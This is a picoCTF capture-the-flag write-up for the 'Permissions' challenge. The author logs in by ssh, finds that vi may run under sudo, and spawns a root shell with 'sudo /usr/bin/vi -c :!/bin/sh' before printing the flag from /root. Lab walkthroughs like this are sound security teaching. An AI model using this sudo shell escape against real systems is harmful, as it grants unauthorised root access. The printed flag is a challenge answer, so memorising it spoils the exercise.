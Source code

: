 # Permissions

Author: Geoffrey Njogu
Location: https://play.picoctf.org/events/72/challenges/challenge/363
Tags: General Skills, vim

## Problem

> Can you read files in the root file? Additional details will be available after launching your challenge instance.

This challenge also comes with the hint "What permissions do you have?"

## Solution

I started by launching an instance of the challenge (Figure 1). I then proceeded to log into the system via ``ssh``, as shown below:

```
lambdacalculus-picoctf@webshell:~$ ssh -p 52131 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ 
```

Given the tag of "vim", the hint and the challenge name of "Permissions", I figured that I would be exploiting a GTFO bin to get root privileges. I queried the GTFOBin entry on ``vim`` [1] and first wanted to see if I could run it via ``sudo``:

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ 
```

It seems that I can. So, I used the following command to get root:

```
picoplayer@challenge:~$ sudo vim -c ':!/bin/sh'
Sorry, user picoplayer is not allowed to execute '/usr/bin/vim -c :!/bin/sh' as root on challenge.
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

I then searched for a potential flag:

```
# ls -l /root
total 0
# ls -la /root
total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Mar 16 19:37 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
# 
```

Excellent.

## References

1. https://gtfobins.github.io/gtfobins/vim/
